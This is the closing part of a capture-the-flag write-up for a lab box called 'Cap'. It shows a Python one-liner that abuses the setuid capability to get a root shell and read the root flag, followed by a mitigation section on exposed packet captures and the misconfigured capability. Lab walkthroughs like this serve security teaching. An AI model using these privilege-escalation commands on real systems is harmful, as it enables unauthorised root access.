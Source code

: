 ```bash
nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("whoami")'
root

nathan@cap:~$ python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

root@cap:~# cat /root/root.txt 
REDACTED
```

## Mitigation

The issues of this box revolve around the PCAP capture. Allowing random people to capture network traffic on the server seems like a very bad idea. You never know what will end up in there. And since the files were left there with an auto-incremented id, it was easy to guess how to download the capture someone else made.

The next issue was allowing Python to change user id with capabilities. By doing this, every Python script was able to do the same. It made it easy to become root.